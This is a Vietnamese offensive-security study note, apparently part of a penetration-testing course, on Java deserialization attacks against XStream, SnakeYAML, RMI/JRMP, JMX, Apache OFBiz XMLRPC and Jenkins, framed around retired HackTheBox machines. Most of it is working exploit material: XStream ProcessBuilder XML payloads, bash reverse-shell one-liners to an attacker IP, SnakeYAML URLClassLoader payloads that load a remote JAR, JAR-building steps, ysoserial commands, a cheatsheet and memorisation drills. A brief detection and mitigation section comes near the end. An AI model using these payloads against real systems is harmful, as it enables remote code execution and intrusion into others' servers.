

> **Prerequisites**: [[05-ysoserial-commons-collections|05. ysoserial & CommonsCollections]]
> **Objectives**:
> - Khai thác XStream XML deserialization để RCE
> - Exploit SnakeYAML unsafe `load()` bằng ScriptEngineManager payload
> - Tấn công Java RMI/JMX endpoints qua JRMP listener
> - Nhận biết và exploit OFBiz/Jenkins-style xmlrpc deserialization
>
---

## Điều kiện khai thác

> [!note] XStream
> - App dùng XStream để parse XML từ user input
> - XStream version ≤ 1.4.6 (unpatched) hoặc version mới nhưng không dùng security framework
> - Có XML input endpoint nhận untrusted data
>
> [!note] SnakeYAML
> - App dùng `yaml.load(userInput)` hoặc `yaml.load(userInput, new Yaml())` (unsafe loader)
> - Backend là Java với Tomcat/Spring (cần JAR serving capability để load `!!java.net.URLClassLoader`)
> - Attacker có thể serve HTTP server (hoặc dùng `!!javax.script.ScriptEngineManager` không cần HTTP)
>
> [!note] RMI/JMX
> - Port 1099 (RMI) hoặc 9010/4848 (JMX) reachable
> - Target JVM có vulnerable gadget libs trên classpath
> - Hoặc: target JVM version < JDK 6u141 / 7u131 / 8u121 (trước khi RMI codebase restrictions)
>
---

## Cơ chế tấn công

### XStream — XML Deserialization

XStream là thư viện serialize/deserialize Java objects sang XML. Nhiều versions không có whitelist class, cho phép inject bất kỳ class nào.

**Nhận biết XStream endpoint**:
- Response XML có dạng `<com.somepackage.ClassName>...</com.somepackage.ClassName>`
- Request Content-Type: `application/xml` và server process XML thành Java objects
- Stack trace mention `com.thoughtworks.xstream`

**CVE-2021-21351 / các XStream CVEs — payload ví dụ**:

```xml
<!-- Payload trigger ProcessBuilder RCE (XStream ≤ 1.4.17) -->
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>bash</string>
          <string>-c</string>
          <string>id</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

**Payload cơ bản dùng `com.sun.org.apache.xalan` (XStream < 1.4.7)**:

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>bash</string>
                        <string>-c</string>
                        <string>bash -i &gt;&amp; /dev/tcp/10.10.14.5/4444 0&gt;&amp;1</string>
                      </command>
                    </next>
                  </iter>
```

> [!tip] Tool tự động cho XStream
> Dùng `marshalsec` để generate XStream payloads: `java -cp marshalsec.jar marshalsec.XStream ExecTransformer "id"`
>
---

### SnakeYAML — YAML Deserialization

YAML trong Java được parse bởi SnakeYAML. Khi dùng `Yaml.load()` không safe, YAML có thể instantiate bất kỳ Java class nào bằng cú pháp `!!`.

**Attack vector 1 — DNS OOB (không cần HTTP server)**:

```yaml
!!java.net.URL ["http://burp-collaborator.net"]
```

Gửi payload này → nếu DNS callback → SnakeYAML unsafe load confirmed.

**Attack vector 2 — URLClassLoader (cần HTTP server)**:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5:8080/yaml-payload.jar"]
  ]]
]
```

Đây là cú pháp load remote JAR và execute code trong JAR.

**Xây yaml-payload.jar**:

```bash
# Clone yaml-payload project
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload

# Edit src/artsploit/AwesomeScriptEngineFactory.java
# Thêm command vào constructor:
# Runtime.getRuntime().exec("bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'");

# Build JAR
javac src/artsploit/AwesomeScriptEngineFactory.java -d src/
jar -cvf yaml-payload.jar -C src/ .
```

**Serve JAR và trigger**:

```bash
# Serve JAR
python3 -m http.server 8080

# Gửi YAML payload
curl -s -X POST http://target.htb:8080/parse \
  -H "Content-Type: application/yaml" \
  -d '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.5:8080/yaml-payload.jar"]]]]'
```

**HTB Ophiuchi pattern**:

```bash
# Test nếu YAML parsing active (không cần RCE, chỉ OOB)
YAML='!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.5:8080/"]]]]'

curl -s -X POST http://10.10.10.227:8080/yaml \
  -H "Content-Type: text/plain" \
  --data "$YAML"

# Nếu có request vào http.server → SnakeYAML unsafe load confirmed
```

---

### Java RMI/JRMP Exploitation

**Nhận biết RMI**:

```bash
# Nmap detection
nmap -p 1099 target.htb --script rmi-dumpregistry

# Output nếu RMI active:
# PORT     STATE SERVICE
# 1099/tcp open  rmiregistry
# | rmi-dumpregistry:
# |   jmxrmi
# |     javax.management.remote.rmi.RMIServerImpl_Stub
```

**Attack via ysoserial RMIRegistryExploit**:

```bash
# Direct RMI registry exploit
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit \
  target.htb 1099 CommonsCollections6 "id"
```

**Attack via JRMP Listener (multi-stage)**:

```bash
# Bước 1: Khởi JRMP listener trên máy attacker
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener \
  1099 CommonsCollections6 "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"

# Bước 2: Gửi JRMPClient payload đến target (target connect về listener của mình)
java -jar ysoserial-all.jar JRMPClient 10.10.14.5:1099 | base64 -w0 > jrmp.txt
curl -s http://target.htb/ -H "Cookie: session=$(cat jrmp.txt)"
```

**Tấn công JMX**:

```bash
# Nmap JMX detection
nmap -p 9010 target.htb

# Exploit JMX với barmie hoặc mjet
java -jar barmie.jar exploit commonsCollections1 target.htb 9010 "id"
```

---

### OFBiz XMLRPC (HTB Monitors pattern)

Apache OFBiz expose `/webtools/control/xmlrpc` — endpoint nhận XML-wrapped serialized Java objects:

```bash
# Step 1: Test endpoint
curl -k https://target.htb:443/webtools/control/xmlrpc \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0"?><methodCall><methodName>test</methodName></methodCall>'
# Nếu nhận response XML (không 404) → endpoint active

# Step 2: Generate ysoserial payload và wrap trong XML
PAYLOAD=$(java -jar ysoserial-all.jar CommonsCollections5 \
  "ping -c 1 10.10.14.5" | base64 -w0)

curl -k -X POST https://target.htb:443/webtools/control/xmlrpc \
  -H "Content-Type: text/xml" \
  -d "<?xml version='1.0' encoding='UTF-8'?>
<methodCall>
  <methodName>test</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>
                ${PAYLOAD}
              </serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>"
```

---

## Quy trình tấn công

**Môi trường giả định**: HTB Ophiuchi — Java/Tomcat app tại port 8080, YAML parser.

**Bước 1 — Xác nhận SnakeYAML unsafe load**

```bash
# Bắt đầu HTTP server
python3 -m http.server 8080 &

# Gửi YAML với URLClassLoader
curl -s -X POST http://10.10.10.227:8080/yaml \
  -H "Content-Type: text/plain" \
  -d '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.5:8080/"]]]]'

# Nếu HTTP server nhận request "GET /META-INF/..." → confirmed!
```

> **Expected output**: `10.10.10.227 - - "HEAD /META-INF/services/javax.script.ScriptEngineFactory"` trong HTTP server log.
>
**Bước 2 — Build yaml-payload.jar**

```bash
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload

# Edit AwesomeScriptEngineFactory.java constructor
sed -i 's|// put your payload here|Runtime.getRuntime().exec(new String[]{"bash","-c","bash -i >\& /dev/tcp/10.10.14.5/4444 0>\&1"});|' \
  src/artsploit/AwesomeScriptEngineFactory.java

# Compile và package
javac -d src/ src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar \
    -C src/ artsploit/AwesomeScriptEngineFactory.class \
    src/META-INF/services/javax.script.ScriptEngineFactory
```

> **Expected output**: `yaml-payload.jar` tạo thành công.
>
**Bước 3 — Serve JAR và trigger**

```bash
# Start nc listener
nc -lnvp 4444 &

# Serve JAR từ directory chứa yaml-payload.jar
python3 -m http.server 8080 &

# Send payload
curl -s -X POST http://10.10.10.227:8080/yaml \
  -H "Content-Type: text/plain" \
  -d '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.5:8080/yaml-payload.jar"]]]]'
```

> **Expected output**: Reverse shell kết nối vào `nc -lnvp 4444`.
>
---

## Biến thể & Bypass

### SnakeYAML không có HTTP access (internal)

Nếu server không thể reach attacker HTTP server:

```yaml
# Dùng Python3 Spring gadget nếu Spring trên classpath
!!org.springframework.context.support.ClassPathXmlApplicationContext ["http://10.10.14.5/evil.xml"]

# Hoặc dùng C3P0 nếu c3p0 available
!!com.mchange.v2.c3p0.JndiRefForwardingDataSource
  jndiName: "rmi://10.10.14.5:1099/exploit"
  loginTimeout: 0
```

### XStream với newer versions (có security framework)

XStream ≥ 1.4.7 có `setupDefaultSecurity()`. Nếu developer không gọi nó, vẫn vulnerable. Kiểm tra:

```bash
# Gửi payload và xem error
# Nếu "ForbiddenClassException" → security enabled → cần chain bypass
# Nếu không có error nhưng có DNS → unsafe load
```

### Jenkins Java deserialization (CLI port 50000)

```bash
# Detect Jenkins
nmap -p 50000 target.htb
# Nếu open → Jenkins CLI port

# Exploit với ysoserial (Jenkins < 1.638)
java -jar ysoserial-all.jar CommonsCollections1 "id" > payload.bin
java -jar jenkins-cli.jar -s http://target.htb:8080/ \
  -remoting groovy < /dev/null 2>&1 | head
# Inject serialized payload via remoting
```

---

## Cây quyết định



---

## Command Cheatsheet

**SnakeYAML**

```bash
# DNS OOB test
curl -X POST http://target/yaml -d '!!java.net.URL ["http://collab.burpcollaborator.net"]'

# HTTP OOB + URLClassLoader test  
curl -X POST http://target/yaml \
  -d '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.5:8080/"]]]]'

# Full exploit (sau khi build yaml-payload.jar)
curl -X POST http://target/yaml \
  -d '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.5:8080/yaml-payload.jar"]]]]'
```

**XStream**

```bash
# marshalsec generate
java -cp marshalsec.jar marshalsec.XStream ExecTransformer "id"
java -cp marshalsec.jar marshalsec.XStream ImageIO "id"

# Manual EventHandler payload (ProcessBuilder)
# → Xem payload XML ở phần trên, thay <string>id</string> bằng command cần chạy
curl -X POST http://target/xml \
  -H "Content-Type: application/xml" \
  --data-binary @xstream_payload.xml
```

**RMI/JRMP**

```bash
# Direct registry exploit
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit HOST PORT CC6 "id"

# JRMP listener + client
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener PORT CC6 "id" &
java -jar ysoserial-all.jar JRMPClient ATTACKER_IP:PORT | base64 -w0 > jrmp.txt

# Enum RMI
nmap -p 1099 TARGET --script rmi-dumpregistry,rmi-vuln-classloader
```

**OFBiz xmlrpc**

```bash
PAYLOAD=$(java -jar ysoserial-all.jar CommonsCollections5 "id" | base64 -w0)
curl -k -X POST https://TARGET/webtools/control/xmlrpc \
  -H "Content-Type: text/xml" \
  -d "<methodCall><methodName>x</methodName><params><param><value><struct><member><name>x</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>${PAYLOAD}</serializable></value></member></struct></value></param></params></methodCall>"
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — SnakeYAML OOB confirm**
Mục tiêu: từ zero đến xác nhận YAML unsafe load trong 2 phút.

```bash
python3 -m http.server 8080 &
curl -X POST http://TARGET/yaml \
  -d '!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://LHOST:8080/"]]]]'
# Check http.server log cho HEAD /META-INF/...
```

Luyện cho đến khi: gõ YAML payload không cần nhìn cheatsheet.

**Drill 2 — yaml-payload.jar rebuild**
Mục tiêu: rebuild JAR với command khác trong dưới 3 phút.

```bash
# Edit AwesomeScriptEngineFactory.java command
# Recompile + rejar
javac -d src/ src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ . src/META-INF/
```

Luyện cho đến khi: không cần nhìn lại git docs.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **SnakeYAML**: Request body chứa `!!java.` hoặc `!!javax.` prefix trong YAML fields
> **XStream**: Request body chứa `<dynamic-proxy>` hoặc `<handler class=` XML tags
> **RMI**: Port 1099 unexpectedly accessible từ public network; unusual JVM registry lookups
> **JRMP**: Outbound TCP từ JVM đến unknown IPs (reverse connection pattern)
>
> **SIEM rules**: WAF rule chặn `!!java` trong YAML; XML validator reject `dynamic-proxy` tags
>
> [!note] Mitigation
> - **SnakeYAML**: Dùng `yaml.load(input, new SafeConstructor())` hoặc upgrade ≥ 2.0 (SafeConstructor default)
> - **XStream**: Gọi `xstream.setupDefaultSecurity(); xstream.allowTypes(new Class[]{...})` — whitelist
> - **RMI**: Không expose port 1099 ra public; bật `com.sun.jndi.rmi.object.trustURLCodebase=false`
> - **JMX**: Enforce authentication; không expose JMX port ra network nếu không cần
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| HTB | **Ophiuchi** (Retired) | SnakeYAML, yaml-payload.jar, URLClassLoader |
| HTB | **Monitors** (Retired) | Apache OFBiz XMLRPC + ysoserial |
| HTB | **Time** (Retired) | Jackson JSON deserialization CVE-2019-12384 |
| Local | marshalsec Docker | XStream và các alt vectors |

---

## Field Manual Entry

> [!abstract] Java Alt Vectors — Quick Reference
> **SnakeYAML OOB**: `!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://LHOST/"]]]]`
> **SnakeYAML RCE**: Serve `yaml-payload.jar` (artsploit template) → URLClassLoader load → exec
> **XStream**: `marshalsec.jar XStream ExecTransformer "cmd"` hoặc manual EventHandler XML
> **RMI**: `ysoserial.exploit.RMIRegistryExploit HOST 1099 CC6 "cmd"`
> **JRMP**: Start JRMPListener → gửi JRMPClient payload → target callback về listener
> **OFBiz**: Wrap ysoserial payload trong `<serializable>` XML tag tại `/xmlrpc`
> **Ref**: [[07-java-deserialization-alt-vectors|07. Java Alt Vectors]]